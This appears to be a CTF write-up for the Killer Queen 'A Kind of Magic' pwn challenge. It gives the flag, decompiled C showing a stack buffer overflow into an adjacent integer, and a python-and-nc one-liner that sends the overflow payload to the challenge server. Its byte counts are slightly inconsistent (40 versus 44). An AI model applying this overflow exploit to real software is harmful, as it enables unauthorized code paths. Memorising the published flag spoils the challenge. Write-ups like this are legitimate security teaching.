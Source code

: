 ```yaml
---
layout: writeup
title: A Kind of Magic
ctf: Killer Queen CTF
points: 177
solves: 294
tags: 
    - pwn
date: 2021-11-01
description: |-
    You're a magic man aren't you? Well can you show me?
flag: flag{i_hope_its_still_cool_to_use_1337_for_no_reason}
---
```

<details>
    <summary>tl;dr</summary>
    
</details>

***

## Introduction

We get a binary, which asks us for a magic input and outputs "Your magic is", followed by a number. This is 0 unless the input is fairly large. We can test the length and find that the output is 0 until we write the 40th character - then it will always be 10.

That it is 10 is interesting, since this is the ASCII value of a newline - so it could seem like we fill a buffer with 44 characters and the next character is printed back, which will then always be a newline.

Looking into the code in Cutter and decompiling, it looks fairly simple:

```c
main(int argc, char **argv)
{
    char **var_40h;
    int var_34h;
    char *s;
    unsigned long var_4h;
    
    var_4h = 0;
    puts("Is this a kind of magic? What is your magic?: ");
    fflush(_stdout);
    fgets(&s, 0x40, _stdin);
    printf("You entered %s\n", &s);
    printf("Your magic is: %d\n", var_4h);
    fflush(_stdout);
    if (var_4h == 0x539) {
        puts("Whoa we got a magic man here!");
        fflush(_stdout);
        system("cat flag.txt");
    } else {
        puts("You need to challenge the doors of time");
        fflush(_stdout);
    }
    return 0;
}
```

It initializes a string `char* s` and a value `var_4h = 0`. It then takes an input up to 64 characters and assigns to the string. But perhaps the buffer for the string is not as large (44 characters according to our test). This means the next characters overflow into `var_4h`, which is then printed. So we can basically insert any number we want into `var_4h`.

This is very useful, since the next condition checks if `var_4h == 0x539` and if so, we get the flag.

So we can simply pass in 44 random bytes followed by 0x539 (followed by some null bytes to get the newline out of the integer and into the next field):
```
python2 -c "print b'A' * 44 + b'\x39\x05\x00\x00'" | nc 143.198.184.186 5000
```
